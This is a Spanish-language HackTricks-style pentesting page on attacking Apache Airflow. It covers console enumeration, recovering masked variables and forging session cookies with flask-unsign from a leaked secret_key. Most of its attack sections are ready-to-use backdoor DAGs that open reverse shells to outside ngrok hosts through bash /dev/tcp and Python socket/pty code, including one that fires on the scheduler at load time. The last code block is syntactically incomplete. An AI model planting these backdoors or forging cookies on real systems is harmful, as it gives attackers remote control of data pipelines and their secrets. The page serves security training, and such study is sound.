 # Seguridad de Apache Airflow

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}

### Información Básica

[**Apache Airflow**](https://airflow.apache.org) sirve como una plataforma para **orquestar y programar tuberías de datos o flujos de trabajo**. El término "orquestación" en el contexto de las tuberías de datos significa el proceso de organizar, coordinar y gestionar flujos de trabajo de datos complejos que provienen de diversas fuentes. El propósito principal de estas tuberías de datos orquestadas es proporcionar conjuntos de datos procesados y consumibles. Estos conjuntos de datos son utilizados extensamente por una multitud de aplicaciones, incluyendo, pero no limitado a, herramientas de inteligencia empresarial, modelos de ciencia de datos y aprendizaje automático, todos los cuales son fundamentales para el funcionamiento de aplicaciones de big data.

Básicamente, Apache Airflow te permitirá **programar la ejecución de código cuando algo** (evento, cron) **suceda**.

### Laboratorio Local

#### Docker-Compose

Puedes usar el **archivo de configuración de docker-compose de** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) para lanzar un entorno docker completo de apache airflow. (Si estás en MacOS asegúrate de darle al menos 6GB de RAM a la VM de docker).

#### Minikube

Una forma fácil de **ejecutar apache airflow** es ejecutarlo **con minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Configuración de Airflow

Airflow podría almacenar **información sensible** en su configuración o puedes encontrar configuraciones débiles en su lugar:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### RBAC de Airflow

Antes de comenzar a atacar Airflow, deberías entender **cómo funcionan los permisos**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Ataques

#### Enumeración de la Consola Web

Si tienes **acceso a la consola web**, podrías acceder a parte o toda la siguiente información:

* **Variables** (Información sensible personalizada podría estar almacenada aquí)
* **Conexiones** (Información sensible personalizada podría estar almacenada aquí)
* Acceder a ellas en `http://<airflow>/connection/list/`
* [**Configuración**](./#airflow-configuration) (Información sensible como el **`secret_key`** y contraseñas podría estar almacenada aquí)
* Listar **usuarios y roles**
* **Código de cada DAG** (que podría contener información interesante)

#### Recuperar Valores de Variables

Las variables pueden ser almacenadas en Airflow para que los **DAGs** puedan **acceder** a sus valores. Es similar a los secretos de otras plataformas. Si tienes **suficientes permisos**, puedes acceder a ellas en la GUI en `http://<airflow>/variable/list/`.\
Airflow por defecto mostrará el valor de la variable en la GUI, sin embargo, de acuerdo a [**esto**](https://marclamberti.com/blog/variables-with-apache-airflow/), es posible establecer una **lista de variables** cuyo **valor** aparecerá como **asteriscos** en la **GUI**.

![](<../../.gitbook/assets/image (164).png>)

Sin embargo, estos **valores** aún pueden ser **recuperados** a través de **CLI** (necesitas tener acceso a la base de datos), ejecución de **DAG** **arbitrarios**, **API** accediendo al endpoint de variables (la API necesita estar activada), y **¡incluso la propia GUI!**\
Para acceder a esos valores desde la GUI, simplemente **selecciona las variables** que deseas acceder y **haz clic en Acciones -> Exportar**.\
Otra forma es realizar un **bruteforce** al **valor oculto** utilizando el **filtro de búsqueda** hasta que lo obtengas:

![](<../../.gitbook/assets/image (152).png>)

#### Escalamiento de Privilegios

Si la configuración **`expose_config`** está establecida en **True**, desde el **rol Usuario** y **hacia arriba** pueden **leer** la **configuración en la web**. En esta configuración, aparece el **`secret_key`**, lo que significa que cualquier usuario con esto válido puede **crear su propia cookie firmada para suplantar cualquier otra cuenta de usuario**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE en el trabajador de Airflow)

Si tienes **acceso de escritura** al lugar donde se **guardan los DAGs**, puedes simplemente **crear uno** que te enviará un **reverse shell.**\
Ten en cuenta que este reverse shell se ejecutará dentro de un **contenedor de trabajador de airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE en el programador de Airflow)

Si configuras algo para que sea **ejecutado en la raíz del código**, en el momento de escribir esto, será **ejecutado por el programador** después de un par de segundos de colocarlo dentro de la carpeta del DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### Creación de DAG

Si logras **comprometer una máquina dentro del clúster DAG**, puedes crear nuevos **scripts de DAG** en la carpeta `dags/` y serán **replicados en el resto de las máquinas** dentro del clúster DAG.

#### Inyección de Código en DAG

Cuando ejecutas un DAG desde la GUI puedes **pasar argumentos** a él.\
Por lo tanto, si el DAG no está correctamente codificado, podría ser **vulnerable a la Inyección de Comandos.**\
Eso es lo que ocurrió en este CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Todo lo que necesitas saber para **comenzar a buscar inyecciones de comandos en DAGs** es que los **parámetros** son **accedidos** con el código **`dag_run.conf.get("param_name")`**.

Además, la misma vulnerabilidad podría ocurrir con **variables** (ten en cuenta que con suficientes privilegios podrías **controlar el valor de las variables** en la GUI). Las variables son **accedidas con**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Si se utilizan, por ejemplo, dentro de un comando bash, podrías realizar una inyección de comandos.

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
